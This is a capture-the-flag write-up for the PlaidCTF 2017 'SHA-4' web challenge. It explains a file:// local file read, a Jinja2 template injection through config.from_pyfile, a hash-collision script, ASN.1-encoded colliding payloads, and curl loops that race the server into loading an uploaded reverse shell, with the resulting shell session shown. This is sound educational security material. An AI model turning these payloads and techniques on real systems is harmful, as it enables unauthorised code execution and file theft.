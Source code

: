 ```yaml
---
layout: post
title: "PlaidCTF 2017 - SHA-4"
category: writeups
authors: [thezero, jbz]
tags: plaidctf-2017 web
---
```


Web - 300 Points

I heard SHA-1 is broken, so I think it's probably time we move to SHA-4.

### Writeup

This challenge provided two forms, one which allowed to post comments and a textarea which parses an hex encoded, ans1 enveloped input.

Solution *tl;dr*

    local file read, hash collision, template injection, race condition


#### Directory Traversal

It is trivial to find a directory traversal by using the `file://` uri scheme instead of the intended `http://` or `https://` ones. Once we obtain file-reading access, we can find the directory of the python webapp `/var/www/sha4` by getting the system version from `file:///etc/issue` and the cmdline from `file:///proc/self/cmdline`.

We can guess the existence of these 2 files:
[server.py](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_server.py)
[sha4.py](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_sha4.py)

By checking the code we can see a possible template injection here:

    return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))

However we can't directly send an input containing characters such as `{}` or `/` because the function `is_unsafe()` checks if the comments contain non-whitelisted chars in `string.ascii_letters + string.digits + " ,.:()?!-_'+=[]\t\n<>"` before rendering it.

The code however seems a little strange for what it is intended to do. Let's check the whole `comments()` function:

{% highlight python %}
try:
  encoded = request.form['comment']
  encoded.replace("\n","\r")
  ber = encoded.decode("hex")
except TypeError:
  return render_template_string(bad)
f = "/var/tmp/comments/%s.txt"%hash(ber).encode("hex")
  
out_text = str(decode(ber))
open(f, "w").write(out_text)

if is_unsafe(out_text):
  return render_template_string(unsafe)

commentt = comment % open(f).read()
return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))
{% endhighlight %}

So the code does the following:

 - hex decode the comment POST parameter
 - calculate the 'sha4' hash of the input
 - set the path `/var/tmp/comments/<hash>.file` as output
 - ASN.1 ber decode the input
 - write the decoded input to the file
 - check if it contains unsafe characters
 - if the previous check is false render the template

#### Template Injection

Since the webapp uses Flask, we can grab the code needed from [Exploring SSTI in flask](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) which hashes the following requirements to achieve Command Execution:

 - upload a python reverse shell payload
 - inject `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` in the `render_template()` function

The first part is simple, we just need to upload the file using the upload form and calculate its path with the `sha4` function.  
The second part is the hard one.  
If we take a closer look at the `comments()` function we can notice there's something a little unusual: why would the programmer write the input to disk, check if it's safe and read it back? It is already in the `out_text` variable!

This seems coded to purposely create a race condition situation and make the challenge solvable.
So basically, to exploit the template injection we need to:

 - find a `sha4` hash collision between two ASN.1 encoded strings: one containing `{% raw  %}{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}{% endraw  %}` and a safe one (which means without `{}` and `/`)
 - send both requests as fast as we can to have enough luck to exploit the race condition by overwriting the file `/var/tmp/comments/<collided hash>.txt` with the malicious payload while the script has passed the `is_unsafe()` check on the safe payload


#### Collision!

We find out that finding a collision is pretty easy.
For every char there is a colliding one for each position in the DES key (see sha4.py file).

We then calculate each colliding char for each forbidden char (`{}/`) with this small snippet

{% highlight python %}
def char_position_collision(char):
    for j in xrange(7):
        m1 = "a"*j + char
        for i in xrange(0,256):
            m2 = "a"*j+chr(i)
            if m1 != m2 and hash(m1) == hash(m2):
                print(m1,m2)
                break
char_position_collision("{")
char_position_collision("}")
char_position_collision("/")
{% endhighlight %}

We can use this [script](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/PlaidCTF2017/sha4_find_payload.py) that:

 1. takes our "bad" payload, and replace each "bad" character with its relative collision
 2. sets dummy padding at the start and at the end of the payload, since the hash function was appending a padding block that needs to collide as well
 3. encodes both "good" and "bad" payloads as ASN.1
 4. hashes them!

Here are the 2 payloads, ASN.1 encoded
```
0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161
0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161
```

#### Finally, the Flag

Once we have the colliding payloads we just have to send both requests as fast as we can, possibly using multiple threads; so from a server with a fast connection we can simply open multiple tmux sessions, running one of the following command in each
{% highlight shell %}
while true; do curl --data 'comment=0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}
{% highlight shell %}
while true; do curl --data 'comment=0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}

After a while the reverse shell should call back to our netcat listener:

{% highlight shell %}
$ whoami
www-data
$ uname -a
Linux chal-sha4 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www
$ ls
html
sha4
$ ls sha4
flag_bilaabluagbiluariglublaireugrpoop
server.py
server.pyc
sha4.py
sha4.pyc
sha4.wsgi
static
templates
$ cat sha4/flag_bilaabluagbiluariglublaireugrpoop
PCTF{th3 security aspect of cyber is very very tough}
{% endhighlight %}

